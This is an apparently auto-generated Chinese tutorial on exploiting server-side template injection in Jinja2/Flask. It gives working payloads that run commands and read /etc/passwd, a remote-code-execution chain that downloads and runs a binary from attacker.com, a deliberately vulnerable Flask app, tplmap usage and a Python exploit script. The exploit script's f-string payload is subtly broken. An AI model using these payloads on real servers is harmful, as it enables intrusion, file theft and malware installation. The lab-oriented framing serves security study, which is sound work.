# 模板注入(SSTI)利用链构造的攻击技术

## 1. 技术原理解析

### 1.1 模板注入(SSTI)概述
模板注入（Server-Side Template Injection, SSTI）是一种安全漏洞，攻击者通过在服务器端模板引擎中注入恶意代码，从而在服务器上执行任意命令或获取敏感信息。模板引擎通常用于动态生成HTML、XML或其他格式的文档，常见的模板引擎包括Jinja2、Twig、Freemarker、Velocity等。

### 1.2 底层实现机制
模板引擎的工作原理是将模板文件与数据结合，生成最终的输出。攻击者通过构造特定的输入，使得模板引擎在解析时执行恶意代码。模板注入漏洞通常发生在以下场景：
- 用户输入直接嵌入到模板中，未经过滤或转义。
- 模板引擎配置不当，允许执行任意代码。

### 1.3 模板注入的利用链
模板注入的利用链通常包括以下几个步骤：
1. **识别模板引擎**：通过错误信息或特定语法识别目标使用的模板引擎。
2. **构造恶意输入**：根据模板引擎的语法，构造能够执行任意代码的输入。
3. **执行任意代码**：通过模板引擎的执行机制，执行系统命令或获取敏感信息。

## 2. 常见攻击手法和利用方式

### 2.1 基本注入
基本注入是最简单的模板注入方式，攻击者通过输入特定的模板语法，使得模板引擎执行恶意代码。例如，在Jinja2中，`{{ 7 * 7 }}`会输出`49`，而`{{ ''.__class__.__mro__[1].__subclasses__() }}`可以列出所有子类。

### 2.2 高级利用技巧
#### 2.2.1 绕过过滤
某些应用可能会对用户输入进行过滤，如删除或转义特定字符。攻击者可以通过以下方式绕过过滤：
- **编码绕过**：使用URL编码、Unicode编码等方式绕过字符过滤。
- **多级注入**：通过嵌套模板语法，绕过简单的过滤机制。

#### 2.2.2 执行系统命令
通过模板引擎的执行机制，攻击者可以执行系统命令。例如，在Jinja2中，可以通过以下方式执行命令：
```python
{{ ''.__class__.__mro__[1].__subclasses__()[258]('ls', shell=True, stdout=-1).communicate() }}
```
该代码会执行`ls`命令并输出结果。

#### 2.2.3 获取敏感信息
攻击者可以通过模板注入获取敏感信息，如环境变量、配置文件等。例如，在Jinja2中，可以通过以下方式获取环境变量：
```python
{{ config.items() }}
```

### 2.3 变种和高级利用
#### 2.3.1 文件读取
通过模板注入，攻击者可以读取服务器上的文件。例如，在Jinja2中，可以通过以下方式读取文件：
```python
{{ ''.__class__.__mro__[1].__subclasses__()[258]('cat /etc/passwd', shell=True, stdout=-1).communicate() }}
```

#### 2.3.2 远程代码执行
通过模板注入，攻击者可以实现远程代码执行（RCE）。例如，在Jinja2中，可以通过以下方式实现RCE：
```python
{{ ''.__class__.__mro__[1].__subclasses__()[258]('wget http://attacker.com/malware -O /tmp/malware', shell=True, stdout=-1).communicate() }}
{{ ''.__class__.__mro__[1].__subclasses__()[258]('chmod +x /tmp/malware', shell=True, stdout=-1).communicate() }}
{{ ''.__class__.__mro__[1].__subclasses__()[258]('/tmp/malware', shell=True, stdout=-1).communicate() }}
```

## 3. 攻击步骤和实验环境搭建指南

### 3.1 实验环境搭建
#### 3.1.1 安装Python和Flask
```bash
sudo apt-get install python3 python3-pip
pip3 install flask
```

#### 3.1.2 创建Flask应用
创建一个简单的Flask应用，模拟存在模板注入漏洞的场景：
```python
from flask import Flask, request, render_template_string

app = Flask(__name__)

@app.route('/')
def index():
    name = request.args.get('name', 'World')
    template = f"Hello {name}!"
    return render_template_string(template)

if __name__ == '__main__':
    app.run(debug=True)
```

### 3.2 攻击步骤
1. **启动Flask应用**：
   ```bash
   python3 app.py
   ```
2. **访问应用**：
   打开浏览器，访问`http://127.0.0.1:5000/`。
3. **构造恶意输入**：
   在URL中添加参数`?name={{ 7 * 7 }}`，观察输出是否为`49`。
4. **执行系统命令**：
   构造URL`?name={{ ''.__class__.__mro__[1].__subclasses__()[258]('ls', shell=True, stdout=-1).communicate() }}`，观察输出是否为当前目录的文件列表。

## 4. 实际命令、代码或工具使用说明

### 4.1 常用命令
- **识别模板引擎**：通过错误信息或特定语法识别目标使用的模板引擎。
- **构造恶意输入**：根据模板引擎的语法，构造能够执行任意代码的输入。
- **执行系统命令**：通过模板引擎的执行机制，执行系统命令或获取敏感信息。

### 4.2 工具使用
- **tplmap**：一个自动化工具，用于检测和利用模板注入漏洞。
  ```bash
  git clone https://github.com/epinna/tplmap.git
  cd tplmap
  python3 tplmap.py -u "http://target.com/?name=*"
  ```

### 4.3 代码示例
以下是一个简单的Python脚本，用于检测和利用模板注入漏洞：
```python
import requests

def check_ssti(url, param):
    payload = "{{ 7 * 7 }}"
    response = requests.get(f"{url}?{param}={payload}")
    if "49" in response.text:
        print("Vulnerable to SSTI")
    else:
        print("Not vulnerable")

def exploit_ssti(url, param, command):
    payload = f"{{ ''.__class__.__mro__[1].__subclasses__()[258]('{command}', shell=True, stdout=-1).communicate() }}"
    response = requests.get(f"{url}?{param}={payload}")
    print(response.text)

url = "http://127.0.0.1:5000"
param = "name"
check_ssti(url, param)
exploit_ssti(url, param, "ls")
```

## 5. 总结
模板注入（SSTI）是一种严重的安全漏洞，攻击者可以通过构造恶意输入，在服务器上执行任意代码或获取敏感信息。本文详细介绍了模板注入的底层实现机制、常见攻击手法和高级利用技巧，并提供了实验环境搭建指南和实际命令、代码示例。通过理解和掌握这些技术，安全研究人员可以更好地检测和防御模板注入漏洞。

---

*文档生成时间: 2025-03-11 17:39:15*
